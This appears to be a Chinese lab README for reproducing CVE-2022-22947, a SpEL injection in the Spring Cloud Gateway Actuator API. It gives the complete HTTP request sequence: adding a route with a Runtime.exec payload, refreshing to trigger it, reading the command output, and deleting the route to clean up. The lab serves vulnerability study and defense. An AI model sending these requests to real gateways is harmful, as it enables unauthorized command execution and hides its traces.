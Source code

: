 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- <https://tanzu.vmware.com/security/cve-2022-22947>
- <https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/>

## 漏洞环境

执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```http request
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```http request
POST /actuator/gateway/refresh HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded


```

![](2.png)

发送如下数据包即可查看执行结果：

```http request
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded
```

![](3.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```http request
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
```

![](4.png)

再刷新下路由：

```http request
POST /actuator/gateway/refresh HTTP/1.1
Host: spring:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded
```
